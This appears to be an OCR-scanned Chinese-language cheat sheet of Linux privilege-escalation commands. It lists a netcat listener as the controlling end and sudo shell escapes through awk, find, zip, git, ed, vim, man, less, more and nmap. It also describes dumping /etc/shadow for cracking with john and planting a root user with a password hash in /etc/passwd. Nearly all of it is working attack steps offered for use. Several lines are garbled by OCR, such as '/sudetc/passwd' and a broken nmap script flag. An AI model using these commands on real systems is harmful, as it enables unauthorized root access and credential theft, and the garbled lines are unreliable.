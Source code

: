 控制端：nc -lvvp 4444

**提权命令：sudo awk \'BEGIN{system(\"/bin/bash\")}\' #awk**

sudo find /home -exec /bin/bash ; #find

sudo cat /etc/shadow #cat我们可以查看 /etc/shadow
文件中的账号密码，并使用john破解

#zip

1.创建一个1.txt，将其压缩为1.zip

2\. sudo zip 1.zip 1.txt -T \--unzip-command=\"sh -c /bin/bash\"

**git**

1.sudo git help add

2.回车如下输入 !/bin/bash

#ed

sudo ed

!/bin/sh

#vim

sudo vim -c\'!sh\'

#man

sudo man man

之后按！按下并按Enter

#lesssud

sudo less /etc/hosts

之后按！按下并按Enter

#more

sudo more /etc/hosts

之后按！按下并按Enter

#nmap

echo \"os.execute(\'/bin/sh\')\"\> /tmp/shell.nse && sudo nmap \--script
= /tmp/shell.nse

#nano

#nano是使用此编辑器的文本编辑器，在您需要切换用户之后，您可以修改pvimasswd文件并将用户添加为root特权。在/etc/passwd中添加此行，以将用户添加为root特权。

touhid:\$6\$bxwJfzor\$MUhUWO0MUgdkWfPPEydqgZpm.YtPMI/gaM4lVqhP21LFNWmSJ821kvJnIyoODYtBh.SF9aR7ciQBRCcw5bgjX0:0:0:root:/root:/bin/bash

sudo nano /sudetc/passwd #现在切换用户密码是：test

su touhid
